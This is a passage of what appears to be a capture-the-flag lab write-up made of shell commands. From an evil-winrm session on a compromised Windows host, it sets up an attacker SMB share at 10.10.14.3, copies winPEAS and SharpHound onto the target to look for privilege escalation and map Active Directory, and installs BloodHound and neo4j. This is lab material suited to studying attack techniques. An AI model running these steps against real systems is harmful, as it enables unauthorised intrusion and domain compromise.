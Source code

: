 ```shell
#get shell

#get user flag from Desktop

#in attacker machine, use smbserver
sudo smbserver.py share . -smb2support -username user -password Password123

#in evil-winrm as svc-alfresco
#auth smbserver using creds
net use \\10.10.14.3\share /USER:user Password123

copy \\10.10.14.3\share\winPEASx64.exe C:\Users\svc-alfresco\Documents\winpeas.exe

.\winpeas.exe
#check for privesc
#this does not give us anything
#we can enumerate AD using bloodhound

#setup bloodhound and neo4j
cd /opt

git clone https://github.com/BloodHoundAD/BloodHound.git

cd BloodHound

#get the bloodhound linux x64 binary
wget https://github.com/BloodHoundAD/BloodHound/releases/download/4.2.0/BloodHound-linux-x64.zip

unzip BloodHound-linux-x64.zip

cd BloodHound-linux-x64.zip

ls -la
#we have our bloodhound binary

#setup neo4j, follow bloodhound wiki
wget -O - https://debian.neo4j.com/neotechnology.gpg.key | sudo apt-key add -

echo 'deb https://debian.neo4j.com stable latest' > /etc/apt/sources.list.d/neo4j.list

sudo apt-get update

sudo apt-get install apt-transport-https

sudo apt-get install neo4j

sudo systemctl stop neo4j

sudo neo4j console
#starts neo4j
#localhost:7474, change creds from neo4j:neo4j to neo4j:bloodhound

#start bloodhound
cd /opt/BloodHound/BloodHound-linux-x64

./BloodHound --no-sandbox
#use new creds set for neo4j and login

#in evil-winrm session, transfer SharpHound.exe from attacker
copy \\10.10.14.3\share\SharpHound.exe C:\Users\svc-alfresco\Documents\SharpHound.exe

#execute SharpHound
.\SharpHound.exe -c all
```